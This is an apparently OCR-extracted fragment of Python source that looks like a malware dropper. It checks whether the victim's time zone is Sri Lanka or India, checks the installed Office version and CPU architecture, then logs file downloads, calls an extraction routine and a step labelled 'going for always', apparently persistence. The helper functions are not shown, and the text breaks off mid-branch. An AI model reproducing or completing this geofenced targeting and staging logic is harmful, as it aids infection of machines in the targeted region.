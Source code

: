             #write_me("Starter")
            print("Log File Created")
            tzname = time.tzname
            #local_tz = get_localzone()
            print("Got the TimeZone")
            append_me("Got the TimeZone : "+str(tzname) + "\n")
            if "sri lanka" in str(tzname).lower() or "india" in str(tzname).lower():
                print("Correctly Identified TimeZone")
                if os.path.exists("c:\\Program Files\\Microsoft Office\\Office15")  is True or os.path.exists("c:\\Program Files\\Microsoft Office\\Office16") is True:
                    print("Office is 2010 or 2016")
                    append_me("Office is 2010 or 2016\n")
                    if is_os_64bit():
                        print("Machine is x64")
                        append_me("Machine is x64\n")
                        
                        append_me("File Downloading Started\n")
                        print("File Downloading Started")
                        
                        ##def_frames()
                        
                        append_me("All Files Downloaded\n")
                        print("All Files Downloaded")
                        
                        
                        deaf()
                        
                        print("Files Extracted")
                        append_me("Files Extracted\n")
                        
                        
                        
                        print("Going for always")
                        append_me("going for always") 
                        
                    else:
                        print("Machine is x86")
                        append_me("Machine is x86\n")
                        
                        ##def_frames()
                        append_me("All Files Downloaded\n")
                        print("All Files Downloaded")
                        
                        
                        print("Going for always")
                        append_me("going for always")
                        deaf()
                        print("Files Extracted")
                        append_me("Files Extracted\n")
                        
                else:
                    print("Other than Office 16 or Office 13")
                    append_me("Other than Office 16 or Office 13\n")
                    
                    ##def_frames()
                    
                    append_me("All Files Downloaded\n")
                    print("All Files Downloaded")
                    